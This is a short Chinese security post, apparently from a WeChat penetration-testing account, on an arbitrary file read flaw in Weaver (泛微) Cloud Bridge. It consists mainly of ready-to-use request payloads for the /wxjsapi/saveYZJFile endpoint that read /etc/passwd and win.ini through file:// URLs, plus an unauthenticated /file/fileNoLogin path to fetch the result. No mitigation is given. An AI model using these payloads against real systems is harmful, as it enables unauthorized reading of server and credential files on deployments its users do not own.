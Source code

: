 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/VoYPK9xozaxvxKq2J\_Gxkg)

**点击蓝字 ·  关注我们**

**01**

漏洞标题

泛微云桥任意文件读取

**02**

生成文件 id

**0x01 payload**

**Linux：**

```
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt

```

**Windows：**

```
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C://windows/win.ini&fileExt=txt

```

**03**

获取文件内容

Payload：/file/fileNoLogin/{id 值}

**04**

Linux 复现

  

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgekL4ALr5xLL67YtRjD5iapvfzJN2oqicO4Ko7Hyia5iaHOCz3F4Ea8gAvxAicvxO7kNaI1LQ6xI8hQaPDw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgekL4ALr5xLL67YtRjD5iapvfZybhHxpXoB6jacxOnfqtS0y8cK1hdmxEzEkRsYx9AX9D2pQCdvYM1w/640?wx_fmt=png)

**05**

Windows 复现

  

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgekL4ALr5xLL67YtRjD5iapvf640licn3aR5WXkWh24ibB3eagEqHLlP88ibuqIMJDzQAl96icyrK5FWQxw/640?wx_fmt=png)

关注 EDI 安全，获取更多 HVV 情报

**EDI 安全**

![](https://mmbiz.qpic.cn/mmbiz_jpg/rJALXSMzgekL4ALr5xLL67YtRjD5iapvfhffx4JwtMA4vvJayQT4FVGPABib2AvbrGj360xYvLWRUrAn0J9Ye1eA/640?wx_fmt=jpeg)

**扫二维码｜关注我们**

一个专注渗透实战经验分享的公众号